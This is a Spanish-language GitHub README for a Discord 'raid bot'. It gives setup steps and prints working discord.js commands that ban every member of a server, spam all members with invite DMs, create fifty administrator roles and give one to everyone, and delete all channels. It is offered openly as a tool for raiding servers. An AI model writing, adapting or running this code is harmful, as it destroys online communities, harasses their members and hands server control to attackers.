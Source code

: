 # anotherdiscordraidbot

Otro Bot de Raid de Discord, no es lo esperado o lo buscado por los mas exigentes; pero sirve.

## Instalacion / Configurar

Primero clona el repositorio:
```bash
git clone https://github.com/zJuack/anotherdiscordraidbot
```

Despues de eso es hora que configures, edites y hostees el bot, repl.it es una opcion; o Heroku.

Facilmente podrias configurar el bot haciendo cambios en ciertas lineas, como por ejemplo:

```js
client.login("El Token de tu Bot esta aqui.");
```
```js
  if (command === "banall") {
    message.guild.members.cache.forEach(allUsers => { allUsers.ban() })
  }
  if (command == "dm") {
    message.guild.members.cache.forEach(pitos => {
      pitos.send("Tu mensaje para DM: discord.gg/tuservidor")

    })
  }
  if (command == "roles") {
    for (let i = 0; i <= 50; i++) {
      message.guild.roles.create({ data: { name: "TuNombreDeRol", permissions: "ADMINISTRATOR", color: "BLACK" } })
    }
    let xd = message.guild.roles.cache.find(c => c.name === "TuNombreDeRol");
    message.guild.members.cache.forEach(allUsers => { allUsers.roles.add(xd) })
  }
  if (command == "deletechannels") {
    message.guild.channels.cache.forEach(xd => xd.delete())
  }
});
```

Hay mas cosas que puedes cambiar, pero tu las podes ver tu mismo, por cualquier problema; no dudes entrar a https://discord.gg/stocking y contactarme via DM o preguntar por quien es zHack.

